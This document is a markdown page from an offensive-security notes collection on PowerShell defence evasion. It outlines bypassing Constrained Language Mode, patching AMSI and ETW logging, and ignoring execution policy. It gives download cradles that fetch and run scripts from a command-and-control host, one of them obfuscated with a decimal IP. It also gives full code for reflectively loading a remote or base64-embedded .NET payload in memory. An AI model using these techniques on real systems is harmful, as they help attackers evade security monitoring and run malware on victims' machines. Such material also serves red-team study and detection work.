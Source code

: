 ```yaml
---
title: PowerShell
---
```


[[notes/windows/evasion]] with PowerShell.

Steps ([source](https://web.archive.org/web/20231227014246/https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/)):

- bypass [[notes/windows/clm]] if [[notes/windows/applocker]] is enabled
- patch [[notes/windows/amsi]] in PowerShell
- disable PowerShell script block logging by patching [[notes/windows/etw]] in PowerShell
- patch [[notes/windows/amsi]] on process-level
- reflectively execute your .NET assembly payload (see below)

PowerShell v2 doesn't have [[notes/windows/clm]], [[notes/windows/amsi]] and [[notes/windows/etw]] script block logging, but requires .NET Framework 2.0 to be installed.

~~~ bat
powershell.exe -version 2
~~~

Ignore execution policy.

~~~ ps1
powershell.exe -ep bypass
Set-ExecutionPolicy -ExecutionPolicy bypass -Scope Process
~~~

Download and execute PowerShell script in memory.

~~~ ps1
iwr -useb c2.attacker.com/script.ps1 | iex
iex(irm c2.attacker.com/script.ps1)
~~~

Tiny download cradle with decimal IP address ([source](https://twitter.com/johnxor2/status/1620365760462991361)).

~~~ ps1
.'irm'3221225985/script.ps1|iex
~~~

Other tools:

- [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell), PowerShell without logging
- [Codecepticon](https://github.com/accenture/codecepticon), code obfuscator

References:

- [PowerShell-Obfuscation-Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)

# Reflective Assembly Loading

Reflective loading is blocked by [[notes/windows/clm]] and the assembly is scanned by [[notes/windows/amsi]].
When loading your payload fails with the error *Could not load file or assembly [...]. An attempt was made to load a program with an incorrect format* your payload was blocked by [[notes/windows/amsi]].
If your payload is detected try [[notes/windows/dotnet-obfuscation]].

Download assembly and execute.

~~~ ps1
$a = @('--help')
$b = (New-Object System.Net.WebClient).DownloadData('https://c2.attacker.com/payload.exe')
$c = [System.Reflection.Assembly]::Load([byte[]] $b)
if ($c.EntryPoint.IsPublic) {
  $c.EntryPoint.ReflectedType::Main($a)
} else {
  $c.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] $a))
}
~~~

Download assembly, execute and capture output.

~~~ ps1
$a = @('--help')
$b = (New-Object System.Net.WebClient).DownloadData('https://c2.attacker.com/payload.exe')
$c = [System.Reflection.Assembly]::Load([byte[]] $b)
$d = [Console]::Out
$e = [Console]::Error
$f = New-Object IO.StringWriter
$g = New-Object IO.StringWriter
[Console]::SetOut($f)
[Console]::SetError($g)
if ($c.EntryPoint.IsPublic) {
  $c.EntryPoint.ReflectedType::Main($a)
} else {
  $c.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] $a))
}
[Console]::SetOut($d)
[Console]::SetError($e)
$e.ToString()
$f.ToString()
~~~

Base64-decode embedded assembly, decompress and execute.

~~~ powershell
$a = @('--help')
$b = [Convert]::FromBase64String('your payload')
#$b = [System.IO.File]::ReadAllBytes("$(pwd)\payload.exe")
$c = New-Object IO.Compression.GzipStream(New-Object IO.MemoryStream($b), [IO.Compression.CompressionMode]::Decompress)
$d = New-Object System.IO.MemoryStream
$c.CopyTo($d)
$e = [System.Reflection.Assembly]::Load([byte[]] $d.ToArray())
if ($e.EntryPoint.IsPublic) {
  $e.EntryPoint.ReflectedType::Main(@('--help'))
} else {
  $e.EntryPoint.ReflectedType.GetMethod('Main', [Reflection.BindingFlags] 'NonPublic,Static').Invoke($null, (,[string[]] @('--help')))
}
~~~
